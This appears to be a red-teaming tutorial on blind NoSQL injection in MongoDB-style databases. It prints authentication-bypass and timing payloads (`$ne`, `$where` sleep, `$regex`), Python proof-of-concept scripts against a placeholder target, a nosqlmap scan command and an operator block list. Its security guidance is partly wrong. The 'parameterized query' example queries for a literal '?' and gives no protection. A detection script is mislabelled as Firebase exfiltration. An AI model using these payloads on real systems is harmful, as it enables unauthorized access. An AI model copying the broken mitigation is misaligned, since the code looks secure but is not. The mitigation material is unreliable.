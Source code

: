 # Blind SQL Injection (BSQLi) in NoSQL and Modern Databases: A Red Teaming Perspective

## Table of Contents
- [Awareness](#awareness)
  - [Introduction to NoSQL Databases](#introduction-to-nosql-databases)
  - [The Myth of NoSQL Injection Immunity](#the-myth-of-nosql-injection-immunity)
  - [Real-World Cases](#real-world-cases)
- [Comprehension](#comprehension)
  - [Understanding Blind NoSQL Injection](#understanding-blind-nosql-injection)
  - [Types of Blind NoSQL Injection](#types-of-blind-nosql-injection)
  - [Example Attack Scenario](#example-attack-scenario)
- [Conviction](#conviction)
  - [Case Studies and Proof of Concept (PoC)](#case-studies-and-proof-of-concept-poc)
  - [Why This Matters](#why-this-matters)
- [Action](#action)
  - [Mitigation Strategies](#mitigation-strategies)
  - [Red Teaming Techniques](#red-teaming-techniques-for-testing-nosql-bsqli)
  - [Future of NoSQL Security](#future-of-nosql-security)

## Awareness

### Introduction to NoSQL Databases
NoSQL databases have gained popularity due to their scalability, flexibility, and schema-free nature. Common NoSQL databases include MongoDB, CouchDB, Firebase, and Cassandra.

```
+-------------------+
|   NoSQL Database |
+-------------------+
| Key-Value Stores |
| Document Stores  |
| Column Stores    |
| Graph Databases  |
+-------------------+
```

### The Myth of NoSQL Injection Immunity
Many developers assume NoSQL databases are immune to SQL Injection attacks because they do not use traditional SQL queries. However, injection vulnerabilities still exist, especially **Blind NoSQL Injection (BSQLi)**.

### Real-World Cases
- **2019 MongoDB Ransom Attacks** – Attackers exploited unsecured NoSQL instances.
- **Firebase Exploits** – Researchers found security flaws allowing unauthorized access.

## Comprehension

### Understanding Blind NoSQL Injection
Blind NoSQL Injection occurs when an attacker interacts with a NoSQL database in a way that does not return direct error messages. Instead, the attacker assume information through **Boolean logic, time delays, or Out-of-Band (OOB) techniques**.

```
User Input  ---> Application  ---> Database Query
      |                        |
      |                        V
      +----> Blind Injection ---> Information Leak
```

### Types of Blind NoSQL Injection
- **Boolean-Based Blind NoSQL Injection** – The attacker sends queries that return true or false responses, helping to infer database behavior.
- **Time-Based Blind NoSQL Injection** – By measuring the response time of specific queries, attackers can extract data without direct feedback.
- **Out-of-Band (OOB) Blind NoSQL Injection** – Exploiting NoSQL engines that process external interactions, such as DNS or HTTP requests, to exfiltrate data.

### Example Attack Scenario
#### 1. Boolean-Based Injection
Consider a web application using MongoDB:

```javascript
user = db.users.findOne({"username": userInput, "password": passInput});
```

If the input is not sanitized, an attacker might inject:

```javascript
{"username": {"$ne": null}, "password": {"$ne": null}}
```

This bypasses authentication by always returning a valid user object.

#### 2. Time-Based Injection
If the database executes different queries based on conditional logic, an attacker can measure time delays to extract information:

```javascript
{"username": "admin", "$where": "sleep(5000)"}
```

A delay in response time indicates that the query successfully manipulated the backend logic.

```
Query Sent  ---> No Immediate Response  ---> Delay Observed  ---> Data Extracted
```

## Conviction

### Case Studies and Proof of Concept (PoC)
#### Extracting Admin Credentials via Boolean-Based Injection
```python
import requests

url = "http://target.com/login"
username_payload = {"username": {"$ne": None}, "password": {"$ne": None}}
response = requests.post(url, json=username_payload)

if response.status_code == 200:
    print("Possible NoSQL Injection vulnerability detected!")
```

#### Firebase Data Exfiltration via Time-Based Injection
```python
import time
import requests

url = "http://target.com/api/user"
payload = {"username": "admin", "$where": "sleep(5000)"}
start = time.time()
requests.post(url, json=payload)
end = time.time()

if end - start > 5:
    print("Time-based NoSQL Injection detected!")
```

### Why This Matters?
Blind NoSQL Injection can lead to:
- **Data breaches**
- **Privilege escalation**
- **Complete application compromise**

## Action

### Mitigation Strategies
#### Using Parameterized Queries
```python
import pymongo
from pymongo import MongoClient

client = MongoClient("mongodb://localhost:27017/")
db = client["testdb"]

# Secure way to handle user input
query = {"username": "?", "password": "?"}
result = db.users.find_one(query)
```

#### Input Validation
```python
def sanitize_input(user_input):
    blacklist = ["$ne", "$where", "$gt", "$lt", "$regex"]
    for keyword in blacklist:
        if keyword in user_input:
            raise ValueError("Potential NoSQL Injection detected!")
    return user_input

# Example Usage
try:
    user_input = sanitize_input("$ne: null")
except ValueError as e:
    print(e)
```

#### Access Control
```javascript
// In MongoDB, restrict user privileges
{
  "roles": [
    {
      "role": "read",
      "db": "testdb"
    }
  ]
}
```

### Red Teaming Techniques for Testing NoSQL BSQLi
#### Automated Scanners
```bash
nosqlmap -u "http://target.com/login"
```

#### Manual Payload Testing
```javascript
{"username": {"$regex": "^admin"}, "password": {"$ne": null}}
```

#### Logging and Monitoring
```python
import logging

logging.basicConfig(filename='nosql_injection.log', level=logging.WARNING)

def log_attempt(payload):
    logging.warning(f"Possible NoSQL Injection Attempt: {payload}")
```

### Future of NoSQL Security
With the rise of NoSQL databases, developers and red teams must adapt security measures to prevent evolving injection attacks. Investing in proactive security testing and secure coding practices is essential to mitigating these threats.
